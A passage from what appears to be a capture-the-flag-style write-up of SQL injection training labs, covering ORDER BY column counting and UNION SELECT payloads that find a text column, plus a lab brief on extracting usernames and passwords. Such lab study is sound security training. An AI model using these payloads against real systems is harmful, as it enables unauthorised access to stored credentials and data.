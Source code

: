 ### Alternate Sol :

> An alternate solution to count the no of cols by using `ORDER BY`. Injecting `ORDER BY 1--` will order the results by the first column of the result. Incrementing the value leads to an internal server error when using `ORDER BY 4--` as the database is instructed to order by a column that does not exist. Thus the correct number of columns is 3.    
 
## Lab 4: SQL injection UNION attack, finding a column containing text.

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you first need to determine the number of columns returned by the query. You can do this using a technique you learned in a previous lab. The next step is to identify a column that is compatible with string data.

The lab will provide a random value that you need to make appear within the query results. To solve the lab, perform a SQL injection UNION attack that returns an additional row containing the value provided. This technique helps you determine which columns are compatible with string data.

Make the database retrieve the string: 'e0J9uf'

### Sol :

  First we have to determine the no of cols of the category by using NULL values as shown above.
  
    category=Pets+union+select+null,null,null--
    
Then we have to check which col contains string by replacing null with 'a' each col

    category=Pets+union+select+'a',null,null--
    category=Pets+union+select+null,'a',null--
    category=Pets+union+select+null,null,'a'--
    
In this lab category we got 2nd col as string. So we replace `'a'` with the desired string.

    category=Pets+union+select+null,'e0J9uf',null--
    
Lab is solved.

![image](https://user-images.githubusercontent.com/33444140/235350029-db8d0569-07c6-4caf-baa9-913039a30d35.png)

## Lab 5: SQL injection UNION attack, retrieving data from other tables

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you need to combine some of the techniques you learned in previous labs.

The database contains a different table called users, with columns called username and password.

To solve the lab, perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the administrator user.
